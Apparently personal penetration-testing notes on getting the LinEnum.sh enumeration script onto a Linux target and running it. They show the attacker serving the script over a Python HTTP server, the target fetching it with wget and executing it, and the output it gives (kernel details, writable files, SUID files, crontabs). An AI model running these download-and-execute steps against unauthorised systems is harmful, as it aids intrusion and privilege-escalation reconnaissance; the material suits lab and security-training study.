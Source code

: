 					Option 1
-- Attacker:
	-- python3 -m http.server 8000			starts webserver for listening

-- Target:
	-- wget ip:8000/documents/LinEnum.sh	download file on target
	-- chmod +x LinEnum.sh 					makes file executable
	-- ./LinEnum.sh							runs file


					Option 2(less privileges)
-- Attacker:
	--Copy LinEnum code to Target			(.sh Extension)
	--chmod +x LinEnum.sh				   makes file executable
	--/LinEnum.sh								runs file


					LineEnum Output
-- kernal information
-- read/write files
-- suid files
-- crontab contents

